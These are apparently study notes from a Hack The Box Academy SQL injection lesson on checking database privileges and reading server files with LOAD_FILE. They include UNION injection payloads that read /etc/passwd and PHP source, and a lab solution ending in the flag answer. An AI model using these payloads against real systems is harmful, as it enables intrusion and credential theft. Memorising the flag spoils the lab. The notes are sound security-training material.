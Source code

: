 ```yaml
---
sticker: lucide//database
---
```

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

---

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

#### DB User

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:


```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:


![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

#### User Privileges

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:


```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:


```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

   

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

---

## LOAD_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a `UNION` injection, we can use the above query:


```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

---

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.


```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

![load_file_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

# Question
---

![](Pasted image 20250203143251.png)

We can use this payload: 

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Once the page has rendered, check source code using `CTRL+U`, we can then use `f3` and search for include:

![](Pasted image 20250203143345.png)

We can see the following, now, we can read the `config.php` file:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

We'll see the following:

![](Pasted image 20250203143450.png)

Answer is `dB_pAssw0rd_iS_flag!`